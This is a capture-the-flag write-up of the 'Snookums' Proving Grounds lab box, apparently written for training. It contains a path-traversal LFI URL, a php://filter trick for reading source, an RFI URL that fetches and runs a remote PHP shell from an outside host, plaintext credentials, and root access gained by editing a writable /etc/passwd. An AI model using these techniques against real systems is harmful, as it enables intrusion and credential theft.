# Snookums -- Proving Grounds (write-up)

**Difficulty:** Intermediate
**Box:** Snookums (Proving Grounds)
**Author:** dkrxhn
**Date:** 2025-08-26

---

## TL;DR

### LFI via image.php with PHP filter to read db.php creds. RFI for shell. Found base64-encoded credentials in the database. Privesc by editing /etc/passwd to set a known root password.
---

## Target info

- Host: `192.168.165.58`
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`, `139/tcp (smb)`, `445/tcp (smb)`

---

## Enumeration



```bash
feroxbuster -u http://192.168.165.58 -w /usr/share/wordlists/dirb/common.txt -n -x php
```



```bash
enum4linux -a -u "" -p "" 192.168.165.58
```



## Exploitation

Found LFI via image.php (exploit-db 48424): <https://www.exploit-db.com/exploits/48424>

```
http://192.168.165.58/image.php?img=../../../../../../../etc/passwd
```



**Direct path to db.php didn't work** because it expects an image -- used PHP filter instead:







- Password: `MalapropDoffUtilize1337`

Used RFI for shell:

```
http://192.168.127.58/image.php?img=http://192.168.45.229/shell.php
```



## Post-exploitation

Found base64-encoded credentials in the database:



- `josh:VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0=`
- `michael:U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==`
- `serena:VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==`



- `josh:MobilizeHissSeedtime747`
- `michael:HockSydneyCertify123`
- `serena:OverallCrestLean000`

## Privilege escalation

Ran linpeas:





Edited `/etc/passwd` to replace `x` for root with an openssl hash of `password123`:



---

## Lessons & takeaways

- When LFI blocks PHP files directly, use PHP filter wrappers (`php://filter/convert.base64-encode/resource=`)
- If the app expects images, RFI may still work by pointing to a remote PHP shell
- Base64-encoded DB credentials may need multiple rounds of decoding
- Writable `/etc/passwd` is instant root -- replace the `x` with a known password hash
---
